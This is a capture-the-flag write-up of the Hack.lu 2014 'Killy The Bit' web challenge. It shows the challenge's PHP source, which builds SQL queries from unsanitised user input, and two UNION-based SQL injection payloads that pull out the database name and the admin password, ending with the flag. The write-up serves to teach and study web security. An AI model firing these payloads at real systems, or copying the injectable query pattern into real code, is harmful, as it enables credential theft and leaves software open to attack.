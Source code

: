 +++
title="Hack.lu CTF 2014: Web 200 - Killy The Bit"
date="2014-10-24"
description="A writeup of a challenge in Hack.lu CTF 2014 where we used UNION Based SQL Injection technique"
author="Nagesh Podilapu"
[taxonomies]
tags=["security", "ctf", "SQLi"]
+++

![Challenge Description](killy.jpg)

In this challenge they provided a link to the website of Royal Bank of Fluxembourg and it's source.

![Frontpage of Royal Bank of Fluxembourg website](front.jpg)

Source code of the given webpage

```php
<?php
include 'config.php';

echo "<html><head><style type='text/css'><!-- body {background-image: url(bg.jpg);background-repeat: no-repeat;height: Percent;width: Percent; background-size: cover;}//--></style> <title>Royal Bank of Fluxembourg</title></head></html>";

<!-- blind? we will kill you -->
if(isset($_GET['name']) && $_GET['name']!='' && !preg_match('/sleep|benchmark|and|or|\||&/i',$_GET['name'])) {
    $res = mysql_query("SELECT name,email FROM user where name='".$_GET['name']."'");

    if(mysql_fetch_object($res)) {
        // Generation of new password
        //<topsecure content>
        // this was filtered during the creation of the phps file
        //</topsecure content>
        die("A new password was generated and sent to your email address!");
    } else {


    $res = mysql_query("SELECT name,email FROM user where name sounds like '".$_GET['name']."'");

        if(mysql_fetch_object($res)) {
            echo "We couldn't find your username, but it sounds like this user:<br>";
        } else {
            die("We couldn't find your username!<br>Are you sure it is ".htmlspecialchars($_GET['name'],ENT_QUOTES, 'utf-8')."?");
        }
        $res = mysql_query("SELECT name,email FROM user where name sounds like '".$_GET['name']."'");

        while($row = mysql_fetch_object($res)) {
           echo $row->name;
           echo "<br>";
        }
    }
} else {

echo "<div style='width:800px; margin:0 auto;'><hr><h1><center>Royal Bank of Fluxembourg<center></h1><hr><br><br>Dear users,<br>We were hacked by Killy the Bit! Please use this site to generate your new password. Login will be available on the 23.10.2014 10:01 CEST<br><br><br></div>";
     echo '<div style="width:400px;margin:0 auto;"<pre><img src=wanted.png></img></pre><br><br>';
    echo '<form action="#" method="get">Please enter your username: <br><input type="text" name="name"><br><input type="submit" name="submit" value="Generate"></form></div>';
}
?>
```

After having a glance at the given code, we found that challenge Author used **where name=** in one query and **where name sounds like** in other query. So we have to exploit this challenge with the help of sounds like query.

I submitted **admia** as username so 1st query returns no results so we will move to else part of the code where sounds like query returns 1 row because admin just sounds like **admia**.

Then I quickly applied this payload

```
admia' UNION select database(),2 LIMIT 1,2 --
Note: There is a whitespace after `--` in the query.
```

Resulted in
```
We couldn't find your username, but it sounds like this user: ctf-level
```

Now we know the database name is ctf-level. And table name in **user** we can see it in given source code. And after some time admin gave a hint that password column name is **passwd**. So I made a query like this

```
admia' UNION select passwd,2 from user where name='admin' LIMIT 1,2 --
Note: There is a whitespace after '--' in the query.
```

Which resulted in
```
We couldn't find your username, but it sounds like this user:
flag{Killy_The_Bit_Is_Wanted_for_9000_$$_FoR_FlipPing_Bits}
```

![Flag being displayed in webpage](flag.jpg)

Voila!! [r3b00+](https://ctftime.org/team/4882) awarded 200 pts

Thanks for Reading.. Feel free to comment :)
